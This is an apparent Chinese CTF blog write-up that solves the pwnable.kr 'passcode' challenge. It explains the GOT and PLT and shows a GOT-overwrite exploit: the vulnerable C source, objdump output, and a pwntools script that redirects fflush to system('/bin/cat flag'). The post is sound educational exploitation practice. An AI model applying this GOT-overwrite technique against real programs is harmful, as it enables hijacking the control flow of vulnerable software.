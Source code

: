 ```yaml
---
layout:     post
title:      GOT表覆盖
subtitle:    GOT表覆盖
date:       2018-10-20
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - pwn
---
```



> GOT表覆盖

```

版权声明：欢迎转载，互相学习。	https://blog.csdn.net/SmalOSnail/article/details/53247502

```

#前言

初学C语言时，大家有没有遇到过这样的情景？


```
1.int a;
2.scanf("%d",a);
```

在使用scanf()函数时，忘记加取地址符号&.

结果程序报错，debug了半天，恍然发现，原来是忘记加坑爹的&。

本文通过讲解一道pwnable.kr上的got表覆写题目，详细的解读GOT覆写技术，讲一讲scanf不加&到底有多坑。

#知识补充
##GOT表：

概念:每一个外部定义的符号在全局偏移表（Global offset Table）中有相应的条目，GOT位于ELF的数据段中，叫做GOT段。

作用：把位置无关的地址计算重定位到一个绝对地址。程序首次调用某个库函数时，运行时连接编辑器（rtld）找到相应的符号，并将它重定位到GOT之后每次调用这个函数都会将控制权直接转向那个位置，而不再调用rtld。

##PLT表：

过程连接表(Procedure Linkage Table)，一个PLT条目对应一个GOT条目

当main()函数开始，会请求plt中这个函数的对应GOT地址，如果第一次调用那么GOT会重定位到plt，并向栈中压入一个偏移，程序的执行回到_init()函数，rtld得以调用就可以定位printf的符号地址，第二次运行程序再次调用这个函数时程序跳入plt，对应的GOT入口点就是真实的函数入口地址。

动态连接器并不会把动态库函数在编译的时候就包含到ELF文件中,仅仅是在这个ELF被加载的时候,才会把那些动态函库数代码加载进来,之前系统只会在ELF文件中的GOT中保留一个调用地址.

##GOT覆写技术：

原理：由于GOT表是可写的，把其中的函数地址覆盖为我们shellcode地址，在程序进行调用这个函数时就会执行shellcode。

以上姿势来源： http://jing0107.lofter.com/post/1cbc869f_8b3d8a5

##题目

题目地址：http://pwnable.kr/

linux下用ssh去连pwnable的服务器，密码是guest

```shell
$ ssh passcode@pwnable.kr -p2222
```
windows下可以用putty去连接

###题目源码

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
int *x=passcode1;

printf("0x%x\n",x);
printf("0x%x\n",*x);

    printf("0x%x\n",passcode1);
    printf("%p\n",passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");
    welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}


```

###题目分析

首先这段源代码中3个函数：main()、login()、welcome（）。 
main()函数中先调用了welcome()，然后调用了login(),剩下的只是打印一些信息，没有卵用。welcome()做的事情是用scanf（）获取用户的名字，然后打印它，也没有什么用。所以这题的重点就在于login()函数了。

login()函数中，先后调用scanf()获取用户输入的两个passcode然后分别与338150和13371337作比较，如果相等的话，便会打印flag。这程序设计的逻辑似乎没啥问题，但是仔细一看，发现这里：

scanf("%d",passcode1);中passcode1没有加取地址符号&

如果scanf没加&的话，程序会默认从栈中读取4个字节的数据当做scanf取的地址

漏洞就发生在这里，我们可以利用上面提到的GOT覆写技术攻击这个程序。

###解题思路

将一个GOT表中的函数地址写到栈中，用来充当scanf（）取的地址，然后把system("/bin/cat flag")这条指令的地址写到这个GOT表中的函数。

当这个函数被调用时，就会直接执行system("/bin/cat flag")

###解题过程

反汇编一下login（）可以看到，fflush()将会在有漏洞的scanf()函数之后被调用，所以我们选择覆写fflush()在ＧＯＴ表中的内容，让程序执行到上图高亮的地方的时候去执行system("/bin/cat flag")。


在上图中还可以找到system("/bin/cat flag")对应汇编代码开始于0x80485e3（这里有两条指令，第一条将参数"/bin/cat flag"入栈，第二条调用system()）

也就是说要把0x80485e3这个值写入fflush()中

现在查看一下GOT表中fflush()的位置，很多方法可以查看elf文件的GOT表，这里说两个常用的命令：

```shell
$ readelf -r target_elf
```

或者

```shell
$ objdump -R target_elf
```

查询结果如下： 

```shell
passcode@ubuntu:~$ objdump -R passcode
passcode:     file format elf32-i386
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a02c R_386_COPY        stdin@@GLIBC_2.0
0804a000 R_386_JUMP_SLOT   printf@GLIBC_2.0
0804a004 R_386_JUMP_SLOT   fflush@GLIBC_2.0
0804a008 R_386_JUMP_SLOT   __stack_chk_fail@GLIBC_2.4
0804a00c R_386_JUMP_SLOT   puts@GLIBC_2.0
0804a010 R_386_JUMP_SLOT   system@GLIBC_2.0
0804a014 R_386_JUMP_SLOT   __gmon_start__
0804a018 R_386_JUMP_SLOT   exit@GLIBC_2.0
0804a01c R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804a020 R_386_JUMP_SLOT   __isoc99_scanf@GLIBC_2.7

```


fflush()位于0x0804a004

现在我们明确了攻击的方式，以数据0x80485e3覆写位于0x0804a004的fflush()函数的GOT表

之后要做的就是在栈中构造这些信息，不难发现welocome()和login()使用的是同一个EBP，如图： 

如下图，

```
0x08048609 in welcome ()
(gdb) i r ebp
ebp            0xfff678c8	0xfff678c8
```

```
0x08048564 in login ()
(gdb) i r ebp
ebp            0xfff678c8	0xfff678c8
```



name位于ebp-0x70

passcode1位于ebp-0x10： 


0x70 - 0x10 = 96,也就是说name这个字符串第96个字节后的4字节数据将会被作为passcode1的地址。

最终我们的payload为： 
"A" * 96 + p32(fflush_got) + str(0x80485e3) 
这里要注意0x80485e3要转换成十进制输入，因为scanf()以%d读取数据。

攻击后效果如图： 


解题脚本
```python
!/usr/bin/python 

from pwn import *

target = process('/home/passcode/passcode')

fflush_got = 0x0804a004

system_addr = 0x80485e3

payload = "A" * 96 + p32(fflush_got) + str(system_addr)

target.send(payload)

target.interactive()
```
